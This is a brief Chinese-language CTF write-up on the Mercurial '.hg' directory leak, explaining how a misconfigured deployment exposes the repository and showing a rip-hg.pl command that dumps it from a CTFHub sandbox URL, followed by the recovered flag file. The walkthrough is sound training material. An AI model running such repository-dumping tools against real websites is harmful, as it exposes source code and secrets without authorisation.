 ```yaml
---
cover: https://w.wallhaven.cc/full/zm/wallhaven-zmz1gj.png
created: 2024-11-27T22:18
date: 2024-11-12 14:01:43+00:00
lastmod: 2024-11-12 14:14:30+00:00
tag: web渗透
title: HG泄露
updated: 2024-12-30T23:33
---
```




# HG泄露

当开发人员使用 Mercurial 进行版本控制，对站点自动部署。如果配置不当,可能会将.hg 文件夹直接部署到线上环境。这就引起了 hg 泄露漏洞。

​`./rip-hg.pl -u http://challenge-a93378720f5e62ef.sandbox.ctfhub.com:10800/.hg/`​

flag_237051366.txt

​`http://challenge-a93378720f5e62ef.sandbox.ctfhub.com:10800/flag_237051366.txt`​

‍
